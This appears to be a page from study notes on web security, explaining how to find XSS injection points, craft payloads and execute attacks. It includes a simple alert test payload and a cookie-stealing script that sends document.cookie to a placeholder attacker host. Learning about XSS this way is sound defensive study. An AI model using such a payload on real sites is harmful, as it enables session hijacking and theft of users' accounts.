

## How to Find and Exploit XSS Vulnerabilities

Finding and exploiting XSS vulnerabilities involves several steps, including identifying potential injection points, crafting payloads, and executing the attack.

### Identifying Injection Points

Injection points are places where user input is reflected in the HTML output. Common injection points include:

- Query parameters in URLs
- Form fields
- Cookies
- AJAX requests

### Crafting Payloads

Payloads are the malicious scripts that attackers inject into the web application. They can range from simple alerts to more complex scripts that steal session cookies or redirect the user to a malicious site.

#### Simple Alert Payload
A simple alert payload can be used to verify if an injection point is vulnerable to XSS.

```html
<script>alert('XSS')</script>
```

#### Stealing Session Cookies
A more sophisticated payload can be used to steal session cookies.

```html
<script>document.location='http://attacker.com/?cookie='+document.cookie</script>
```

### Executing the Attack

Once the payload is crafted, it can be injected into the web application. The attacker can either trick the victim into clicking a malicious link or wait for the victim to visit a page containing the malicious script.



---
<!-- nav -->
[[07-Detection and Prevention of XSS|Detection and Prevention of XSS]] | [[Web Security (PortSwigger)/03-Cross-Site Scripting (XSS)/01-Cross Site Scripting XSS Complete Guide/00-Overview|Overview]] | [[09-How to Prevent or Mitigate XSS Vulnerabilities|How to Prevent or Mitigate XSS Vulnerabilities]]
